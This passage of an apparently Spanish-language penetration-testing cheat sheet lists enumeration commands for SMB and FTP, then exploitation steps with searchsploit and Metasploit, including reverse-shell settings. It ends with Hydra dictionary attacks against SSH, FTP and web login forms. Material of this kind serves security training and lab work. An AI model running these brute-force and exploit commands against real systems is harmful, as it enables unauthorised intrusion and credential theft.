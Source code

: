 #### SMB/NetBIOS (Puertos 139, 445)

| Técnica | ⭐ Comando Esencial | Propósito Académico |
| :--- | :--- | :--- |
| **Listado de Recursos** | `smbclient -L //<IP_objetivo> -N` | **El primer paso en SMB.** Enumera los recursos compartidos (shares) sin necesidad de contraseña. |
| Enumeración Completa | `enum4linux -a <IP_objetivo>` | Extracción completa de información (usuarios, shares, políticas). Muy ruidoso. |
| Scripts NSE SMB | `nmap -p 445 --script smb-enum-shares,smb-vuln* <IP>` | Detección automatizada de vulnerabilidades y enumeración con Nmap. |

#### FTP (Puerto 21)

| Técnica | ⭐ Comando Esencial | Propósito Académico |
| :--- | :--- | :--- |
| **Acceso Anónimo** | `ftp <IP_objetivo>` (user: `anonymous`, pass: `anonymous`) | **Verificar siempre.** Una de las misconfigurations más comunes. |
| Enumeración Automatizada | `nmap -p 21 --script ftp-anon,ftp-vuln* <IP>` | Scripts de Nmap para detectar acceso anónimo y vulnerabilidades conocidas. |

---

## ⚔️ FASE 3: EXPLOTACIÓN

### 3.1 Búsqueda y Análisis de Vulnerabilidades

#### Búsqueda con Searchsploit (Base de Datos Local de Exploits)

| Técnica | ⭐ Comando Esencial | Propósito Académico |
| :--- | :--- | :--- |
| **Búsqueda por Servicio** | `searchsploit <servicio> <versión>` | **El método más rápido.** Correlaciona la versión del software con exploits conocidos en la base de datos de Exploit-DB. |
| Copiar Exploit | `searchsploit -m <ID_exploit>` | Copia el código del exploit a tu directorio actual para análisis y ejecución. |

#### Framework Metasploit

| Fase | ⭐ Comando Esencial | Propósito Académico |
| :--- | :--- | :--- |
| **Búsqueda de Módulos** | `search <criterio>` | Localización precisa de módulos de exploits o auxiliares. |
| **Selección de Exploit** | `use exploit/<ruta>` | Carga un módulo específico para su configuración. |
| **Configuración** | `set RHOSTS <IP>` / `set LHOST <IP>` | `RHOSTS` es la IP víctima. `LHOST` es tu IP para reverse shells. |
| **Ejecución** | `exploit` o `run` | Lanza el exploit contra el objetivo. |

### 3.2 Ataques de Fuerza Bruta con Hydra

| Protocolo | ⭐ Comando Esencial | Propósito Académico |
| :--- | :--- | :--- |
| **SSH** | `hydra -L users.txt -P pass.txt ssh://<IP>` | Ataque de diccionario contra el servicio SSH. |
| **FTP** | `hydra -L users.txt -P pass.txt ftp://<IP>` | Ataque de diccionario contra el servicio FTP. |
| **Formulario Web (POST)** | `hydra -L users.txt -P pass.txt <IP> http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Incorrect"` | Ataque contra un formulario de login web. |

---